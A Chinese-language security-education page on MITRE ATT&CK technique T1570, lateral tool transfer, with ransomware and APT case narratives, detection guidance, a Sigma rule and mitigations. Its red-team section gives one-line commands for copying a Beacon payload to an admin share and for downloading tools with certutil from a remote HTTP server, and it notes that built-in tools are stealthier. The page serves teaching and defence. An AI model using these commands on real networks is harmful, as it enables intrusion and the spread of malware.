

# 横向工具传输 (T1570)

## 一句话通俗理解

攻击者把工具（后门、扫描器、勒索软件）从一台电脑通过网络"扔"到另一台电脑上，就像小偷潜入一栋建筑后，把开锁工具从一层传到另一层。

## 难度等级

- ⭐ 初级（基础概念，容易理解）

## 技术描述

横向工具传输（T1570）是MITRE ATT&CK框架中横向移动战术下的一种技术。

**通俗解释：**
当攻击者攻陷了网络中的一台电脑后，他们通常需要把攻击工具（如远程控制软件、扫描器、勒索软件）传输到网络中的其他电脑上，以便继续扩大入侵范围。攻击者会使用各种文件传输方式——比如复制文件到共享文件夹、通过PSExec传输文件、使用WinRM的文件传输功能、或者用WMIC复制文件。这种技术本身不是攻击手段，而是攻击者横向移动中必不可少的一个"步骤"。

**技术原理：**

1. **确定传输目标**：攻击者选择要传输工具的目标系统
2. **建立传输通道**：利用已获得的凭据通过SMB、WinRM、RDP等协议连接到目标系统
3. **传输文件**：将恶意文件从已控系统复制到目标系统
4. **执行文件**：在目标系统上运行传输的工具

**用途与影响：**
虽然简单的文件复制看起来无害，但横向工具传输是整个横向移动过程的"后勤保障"。没有它，攻击者无法将有效的工具部署到新的系统上。这也是为什么监控网络中的异常文件传输——特别是可执行文件和管理工具的传输——对于检测横向移动至关重要。

## 子技术列表

该技术没有子技术。

## 攻击流程

### 典型攻击流程

```
获取凭据 --> 建立连接 --> 传输工具 --> 执行工具
```



**步骤详解：**

1. **获取凭据**
   - 通俗描述：从被入侵系统中窃取凭据，用于远程连接其他系统
   - 技术细节：使用Mimikatz提取NTLM哈希或Kerberos票据
   - 常用工具：Mimikatz、LaZagne

2. **建立连接并传输**
   - 通俗描述：使用系统管理工具连接目标系统并复制文件
   - 技术细节：通过SMB共享（`copy file \\target\C$\path`）、通过PSExec或WinRM复制文件
   - 常用工具：copy命令、robocopy、certutil、PowerShell

3. **执行**
   - 通俗描述：在目标系统上运行复制过去的工具
   - 技术细节：使用PSExec创建服务运行文件，或计划任务执行
   - 常用工具：PSExec、schtasks、WinRM

## 真实案例

### 案例1：LockBit 3.0勒索软件通过横向工具传输部署（2022-2024年）

- **时间**: 2022年至2024年
- **目标**: 全球多个行业，包括制造业、政府和医疗
- **攻击组织**: LockBit（勒索软件即服务组织）
- **手法**: LockBit 3.0附属成员在受害网络中的横向移动标准流程为：首先通过钓鱼或漏洞利用获得初步访问，然后在被控系统上部署Cobalt Strike Beacon作为C2通道。使用Beacon的内置功能（通过SMB协议的文件传输模块）将LockBit勒索软件二进制文件复制到网络中的其他系统。攻击者使用`dir`和`net view`命令找出网络中的其他Windows系统，然后使用`copy`命令通过管理员共享（ADMIN$和C$）将LockBit载荷传输到目标系统的`C:\Windows\Temp\`目录。传输完成后，使用PSExec远程执行勒索软件。LockBit特别利用域管理员的SMB连接来批量部署勒索软件到所有域成员服务器。在2024年2月的执法行动后，LockBit依然活跃，并发布了4.0版本，进一步优化了横向工具传输的效率。
- **影响**: 根据司法部行动数据，LockBit在2020-2024年间敲诈了超过数十亿美元，影响了全球至少2,500个组织
- **参考链接**: [LockBit勒索软件分析 - Trend Micro](https://www.trendmicro.com/vinfo/us/security/news/ransomware-spotlight/lockbit-3-0-ransomware)

### 案例2：Royal勒索软件横向工具传输手法（2022-2023年）

- **时间**: 2022年至2023年
- **目标**: 全球医疗、教育和制造行业
- **攻击组织**: Royal勒索软件（后演变为BlackSuit）
- **手法**: CISA联合安全公告披露Royal勒索软件的横向移动技术细节。Royal附属成员在获得初始访问后，首先部署Cobalt Strike Beacon进行远程控制。然后通过Beacon使用PowerShell的`Invoke-WebRequest`从受控的C2服务器下载工具到被入侵系统。这些工具包括Process Hacker（用于终止安全软件）、Advanced Port Scanner（用于网络扫描）、以及勒索软件载荷。工具下载到被控系统后，通过SMB共享协议使用`copy`或`robocopy`复制到其他系统。Royal特别使用`net use`命令建立SMB连接，然后将工具复制到其他系统的ADMIN$共享。在一次攻击中，攻击者在2小时内将勒索软件部署到了120台以上的服务器上。
- **影响**: 在2023年，Royal勒索软件攻击了至少350个组织，勒索金额从100万到2000万美元不等
- **参考链接**: [CISA Royal勒索软件联合公告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-061a)

### 案例3：APT10使用DMZ作为工具传输中转站（2024年）

- **时间**: 2024年
- **目标**: 亚洲多个政府机构和国防承包商
- **攻击组织**: APT10（Stone Panda，关联中国）
- **手法**: ACSC（澳大利亚网络安全中心）2024年2月发布的联合公告详细描述了APT10的最新攻击技术。APT10在攻击活动中使用DMZ区域中的服务器作为工具传输的中转站。攻击者首先入侵DMZ中的Web服务器（如IIS），然后通过该服务器将攻击工具包通过SMB和SCP协议传输到内部网络的目标系统。APT10使用的工具包括自定义后门（如HIDEDOOR、TUNNELSHELL）和开源工具（如Mimikatz、Impacket）。攻击者特别使用`certutil.exe`和`bitsadmin.exe`从内部C2服务器下载工具，以伪装成正常的Windows更新或证书下载流量。APT10还在传输后使用`cipher.exe`覆盖删除原始文件以清理痕迹。
- **影响**: 成功入侵多个政府机构并窃取了敏感知识产权数据
- **参考链接**: [APT10横向移动分析 - ACSC](https://www.cyber.gov.au/about-us/advisories/2024-008-apt10-lateral-movement)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **使用SMB共享快速传输**
   一旦拥有管理员凭据，使用`copy beacon.exe \\target\C$\Windows\Temp\beacon.exe`快速传输文件。利用ADMIN$共享可以直接复制到管理目录。

2. **使用certutil下载大文件**
   使用Windows自带的certutil从HTTP服务器下载工具：`certutil -urlcache -f http://server/tool.exe tool.exe`。这种方法使用合法工具进行下载，不易被标记。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| PSExec | 远程执行和文件传输 | Windows | https://learn.microsoft.com/en-us/sysinternals/downloads/psexec |
| certutil | Windows内置证书工具，可用于下载文件 | Windows | Windows自带 |
| robocopy | Windows内置的文件复制工具 | Windows | Windows自带 |
| Impacket | 远程文件传输和执行的Python工具套件 | Python | https://github.com/fortra/impacket |

### 注意事项

- 合法的渗透测试必须有书面授权
- 大量文件的SMB传输可能会触发网络监控告警
- 使用内置工具（certutil、bitsadmin）比外部工具更隐蔽

## 蓝队视角

### 检测要点

1. **监控SMB协议中的文件写入事件**
   - 日志来源：Windows安全日志（Event ID 5145——网络共享对象访问审核）、Sysmon Event ID 11
   - 关注字段：写入的共享路径、源IP、文件名
   - 异常特征：非工作时间大量可执行文件（.exe、.dll、.ps1）写入ADMIN$或C$共享

2. **监控Windows内置工具用于文件下载**
   - 日志来源：Windows安全日志（Event ID 4688——进程创建）、Sysmon Event ID 1
   - 关注字段：certutil、bitsadmin、powershell的进程创建
   - 异常特征：certutil从外部HTTP URL下载文件；powershell下载可执行文件

### 监控建议

- 监控非计划内的文件共享写入活动，特别是对ADMIN$和C$的写入
- 配置Sysmon监控所有文件创建事件（Event ID 11），关注`C:\Windows\Temp\`目录
- 监控高价值系统的SMB连接数量和频率

## 检测建议

### 网络层检测

**检测方法：** 监控SMB协议（TCP 445）的流量模式，特别是大量文件写入请求。

### 主机层检测

**Windows事件ID：**
- 事件ID 5145：检测对ADMIN$和C$共享的非计划写入
- 事件ID 4688 / Sysmon Event ID 1：监控certutil、bitsadmin、powershell的异常使用
- Sysmon Event ID 11：监控可执行文件创建事件

### 应用层检测

**Sigma规则示例：**
```yaml
title: File Transfer via SMB Admin Shares
status: experimental
description: Detects file writes to ADMIN$ and C$ shares
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 5145
        ShareName:
            - '*\ADMIN$'
            - '*\C$'
        RelativeTargetName: '*\*.exe'
        AccessMask: '0x2'  # Write
    condition: selection
level: high
tags:
    - attack.t1570
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 限制管理员共享（ADMIN$）的访问

**具体实施步骤：**
1. 在不需要远程管理的系统上禁用ADMIN$共享
2. 限制可以通过SMB远程访问管理员共享的用户组
3. 仅允许从专用的管理跳板机发起的SMB连接

### 优先级2：重要措施

**措施名称：** 网络分段

**具体实施步骤：**
1. 将资产划分为不同的安全区域（如：用户区、服务器区、DMZ）
2. 实施网络ACL限制SMB、WinRM等管理协议在不同区之间的横向流量
3. 限制工作站之间的SMB流量（工作站通常不需要互相共享文件）

### 优先级3：建议措施

**措施名称：** 启用Sysmon文件创建日志

**具体实施步骤：**
1. 在企业环境中部署Sysmon
2. 启用Sysmon Event ID 11（FileCreate）监控
3. 特别关注`C:\Windows\Temp\`、`%APPDATA%`等目录中的可执行文件创建

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 |
|------------|-------------|--------|
| M1037 | Filter Network Traffic | 适用 |
| M1032 | Multi-factor Authentication | 部分适用 |
| M1026 | Privileged Account Management | 适用 |
| M1018 | User Account Management | 适用 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**推荐靶场：** 包含两台Windows成员服务器的域环境。

### 实验1：SMB横向文件传输（初级）

**实验目标：** 理解通过SMB共享进行横向工具传输的方法。

**实验步骤：**
1. 在目标系统上创建管理员共享
2. 使用`net use`建立与目标系统的SMB连接
3. 使用`copy`命令将工具复制到目标系统的ADMIN$共享
4. 使用PSExec在目标系统上执行复制过去的工具

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| SMB | Server Message Block | Windows网络中用于文件共享和打印服务的网络协议 |
| ADMIN$ | Administrative Share | Windows默认的管理共享，指向系统目录 |
| PSExec | PsExec | Microsoft Sysinternals工具，用于远程执行程序 |
| BITS | Background Intelligent Transfer Service | Windows后台智能传输服务，可用于后台文件下载 |
| C$ | C Drive Admin Share | Windows默认的C盘管理共享 |

## 参考资料

### 官方文档

- [MITRE ATT&CK - Lateral Tool Transfer](https://attack.mitre.org/techniques/T1570/)
- [防御SMB滥用 - Microsoft安全文档](https://docs.microsoft.com/en-us/windows/security/threat-protection/)
- [Sysmon部署指南 - Microsoft安全](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)

### 安全报告

- [LockBit 3.0勒索软件技术分析 - Trend Micro](https://www.trendmicro.com/vinfo/us/security/news/ransomware-spotlight/lockbit-3-0-ransomware)
- [CISA Royal勒索软件联合公告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-061a)
- [APT10横向移动分析 - ACSC 2024](https://www.cyber.gov.au/about-us/advisories/2024-008-apt10-lateral-movement)
- [横向移动检测技术指南 - 1-SEC 2026](https://1-sec.dev/blog/lateral-movement-detection-techniques-2026)
